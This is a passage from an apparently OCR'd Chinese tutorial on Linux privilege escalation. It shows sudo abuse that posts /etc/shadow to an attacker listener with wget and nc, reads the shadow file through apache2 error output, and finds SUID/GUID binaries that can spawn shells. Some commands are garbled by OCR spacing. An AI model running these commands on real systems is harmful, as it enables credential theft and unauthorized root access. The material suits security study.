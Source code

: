 su touhid

**注意：如果您要从服务器上转储文件，例如** root **的** ssh **密钥，**shadow **文件等。**

sudo wget —post-file = / etc / shadow 192.168.56.1:8080

攻击者的设置侦听器：nc –lvp 8080

### **使用** apache **命令**

但是，我们无法获得 Shell 和 Cant 编辑系统文件。

但是使用它我们可以查看系统文件。

sudo apache2 -f / etc / shadow

输出是这样的：

Syntax error on line 1 of /etc/shadow:Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

可悲的是没有 shell。但是我们可以现在提取 root 哈希，然后在破解了哈希。

**0x006 linux 提权 - Suid 和 Guid 配置错误**
-------------------------------------

**描述**

SUID 代表设置的用户 ID，是一种 Linux 功能，允许用户在指定用户的许可下执行文件。例如，Linux ping 命令通常需要 root 权限才能打开网络套接字。通过将 ping 程序标记为 SUID（所有者为 root），只要低特权用户执行 ping 程序，便会以 root 特权执行 ping。

SUID（设置用户 ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。

当运行具有 suid 权限的二进制文件时，它将以其他用户身份运行，因此具有其他用户特权。它可以是 root 用户，也可以只是另一个用户。如果在程序中设置了 suid，该位可以生成 shell 或以其他方式滥用，我们可以使用它来提升我们的特权。

**以下是一些可用于产生** SHELL **的程序：**

nmap

vim

less more

nano

cpmv

find

**查找** suid **和** guid **文件**

Find SUID find / -perm -u=s -type f 2>/dev/null Find GUID find / -perm -g=s -type f 2>/dev/null

**其他命令**
